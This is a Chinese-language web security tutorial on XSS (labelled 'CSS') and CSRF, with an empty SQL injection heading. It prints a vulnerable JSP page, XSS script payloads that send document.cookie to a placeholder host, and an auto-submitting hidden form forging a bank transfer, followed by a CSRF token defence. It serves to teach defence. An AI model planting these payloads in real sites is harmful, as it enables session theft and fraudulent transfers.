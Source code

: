 ## SQL注入

## CSS

CSS(Cross Site Script)又称XSS，全称跨站脚本攻击，属被动式且在用户客户端进行的攻击方式。

它的原理是向网站中输入（传入）恶意的HTML代码，这段代码被保存，当其他用户访问该网站时，HTML代码自动执行，从而达到攻击的目的。可能造成盗取用户Cookie、破坏页面结构、重定向到其他网站等后果。

XSS类似于SQL注入，开发者需要注意所有可输入的地方，尽量对用户的输入进行转义。

### DOM Based XSS

``` html
<html>
    <head>
       <title>XSS测试</title>
    </head>
    <body>
       页面内容：<%=request.getParameter("content")%>
    </body>
</html>
```

```
http://www.xss.com?content=<script>window.open("mydomain.com?param="+document.cookie)</script>
```

### Stored XSS

比如一个博客网站可以发布文章，但未对文章进行处理，当我发布的文章中包含恶意的HTML时，任何浏览我文章的人都会被攻击。


比如我插入脚本获取用户cookie：

``` html
<div>
<!-- 文章内容 -->
<script>
window.open("mydomain.com?param="+document.cookie)
</script>
</div>
```

## CSRF

CSRF(Cross Site Request Forgery)，即跨站请求伪造。利用用户登录受信网站后保留的Cookie进行攻击。

比如某银行网站以GET请求完成银行转账的POST请求：

```html
<form method="POST" action="http://www.bank.com/transfer">
    <input name="toid" value="" />
    <input name="meney" value="" />
</form>
```

我在我的网站中加入HTML

``` html
<form id="test" method="POST" action="http://www.bank.com/transfer">
    <input type="hidden" name="toid" value="{% myid %}" />
    <input type="hidden" name="meney" value="{% 100 %}" />
</form>
<script>
$(function() {
    $('#test').submit()
})
</script>
```

那么当用户登陆银行后访问我的网站，由于它有了银行网站返回的cookie，银行网站会通过他的验证，转账给我。

### 防御

在客户端页面增加伪随机数，为每个请求的用户，在Session中赋予一个随机值`_csrf`，在页面渲染的过程中，将这个`_csrf`值告诉前端，

``` html
<form method="POST" action="http://www.bank.com/transfer">
    <input name="toid" value="" />
    <input name="meney" value="" />
    <input type="hidden" name="_csrf" value="{% _csrf %}" />
</form>
```

由于`_csrf`是一个随机值，攻击者不太容易构造出攻击用的HTML。

